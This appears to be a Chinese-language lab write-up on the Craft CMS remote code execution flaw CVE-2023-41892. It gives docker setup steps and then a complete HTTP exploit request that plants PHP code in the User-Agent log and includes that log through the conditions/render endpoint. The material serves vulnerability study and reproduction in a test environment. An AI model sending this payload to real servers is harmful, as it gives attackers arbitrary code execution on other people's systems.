




# Craft CMS远程代码执行漏洞（CVE-2023-41892）

​	Craft CMS是一个开源的内容管理系统，它专注于用户友好的内容创建过程，逻辑清晰明了，是一个高度自由，高度自定义设计的平台吗，可以用来创建个人或企业网站也可以搭建企业级电子商务系统。Craft CMS存在前台远程代码执行漏洞，攻击者可构造恶意请求执行任意代码，控制服务器。

源码地址 https://github.com/craftcms/cms/

版本影响 4.0.0-RC1 <= Craft CMS <= 4.4.14

参考链接：

- https://github.com/advisories/GHSA-4w8r-3xrw-v25g

  

## 漏洞环境

执行如下命令启动一个 craft-cms-4-4-11-web：

```
docker compose up -d
```

进入craft-cms-4-4-11-web容器中 

```shell
docker ps 
sudo docker exec -it craft-cms-4-4-11-web bash
```

在craft-cms-4-4-11-web容器中执行craft的初始化命令

```shell
export CRAFT_ALLOW_SUPERUSER=1
php craft setup
```

数据库craftcms



之后填写邮箱及登录密码



环境启动后，访问`http://your-ip:8080`/admin 即可跳转到craft-cms 登录页面



## 漏洞复现

在User-Agent头 贴入php代码 <?php xxxxx  ?>，在itemFile包含今天的生成log日志文件从而执行php代码。

```
POST /index.php HTTP/1.1
Host: 192.168.76.129:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent:<?=`id` ?>
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/storage/logs/web-2025-04-23.log"}]}}
```


